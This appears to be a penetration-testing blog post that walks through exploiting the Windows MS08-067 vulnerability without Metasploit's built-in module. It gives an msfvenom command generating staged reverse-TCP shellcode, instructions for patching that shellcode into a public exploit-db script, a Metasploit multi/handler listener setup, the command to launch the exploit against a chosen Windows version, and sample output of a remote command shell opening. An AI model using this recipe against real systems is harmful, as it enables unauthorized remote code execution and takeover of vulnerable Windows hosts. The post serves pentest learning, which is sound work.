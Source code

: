 ```yaml
---
title:  "MS08-067B - Custom Script"
date:   2021-08-05 21:15:00 +0100
categories: [techniques]
tags: [windows, scripts, ms08-067]
comments: true
---
```


MS08-067 - Create your own Python Script
========================================

Exploiting MS08-067 without using metasploit.   

This has been quite tricky to get working, but in summary from my experience, you cant use 'nc' as a listener for this because the payload needs to be STAGED and 'nc' will only catch STAGELESS payloads.


First download the Python Script from here - [MS08_067](https://www.exploit-db.com/download/40279.py 'MS08-067')

Next run msfvenom with the arguments to suit your needs:

`msfvenom -p windows/shell/reverse_tcp LHOST=x.x.x.x LPORT=8080  EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python -v shellcode --arch x86 --platform windows`

Next, replace the shell code in the python script with the shell code you have just created with msfvenom.

Note - LEAVE THE FIRST THREE LINES (NOPS) IN THE PYTHON SCRIPT.
Lines, 47, 48, 49


`shellcode="\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"`
`shellcode="\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"`
`shellcode+="\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"`
`---ENTER SHELLCODE HERE ---`

Next make a note of the Operating System & Service Pack that your are trying to execute. 
There are 7 options to choose from:

1   Windows XP SP0/1 Universal
2   Windows 2000 Universal
3   Windows 2003 SP0 Universal
4   Windows 2003 SP1 English
5   Windows XP SP3 French (NX)
6   Windows XP SP3 English (NX)
7   Windows XP SP3 English (AlwaysOn NX)

Next -  Start Metasploit and setup a handler 
use exploit/multi/handler
set LHOST X.X.X.X
set LPORT XXXX
set payload windows/shell/reverse_tcp
exploit -j

Next execute the python script using the correct number that relates to the OS and Service Pack liek so.


python 40279.py 1

You should see the reverse shell returned.

msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on X.X.X.X:8080 
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to A.A.A.A
[*] Command shell session 10 opened (X.X.X.X:8080 -> A.A.A.A:1219) at 2017-02-00 15:55:22 +0000

Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>


![img-description](/images/ms08-067.png)
_For Reference this is what the traffic looks like for a successful reverse TCP connection for this particular exploit._



